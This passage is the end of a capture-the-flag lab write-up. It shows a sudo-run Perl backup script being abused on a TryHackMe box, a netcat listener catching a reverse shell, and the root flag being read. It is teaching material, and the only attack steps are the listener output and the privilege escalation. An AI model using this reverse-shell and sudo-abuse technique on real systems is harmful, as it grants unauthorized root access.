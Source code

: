 ```bash
www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.112.1] from (UNKNOWN) [10.10.205.80] 56526
```

We have root and we can go and cat out the flag in `/root/root.txt` and submit it.

> Well this was a good box and we have learnt alot of techniques especially on enumeration.
{: .prompt-warning }
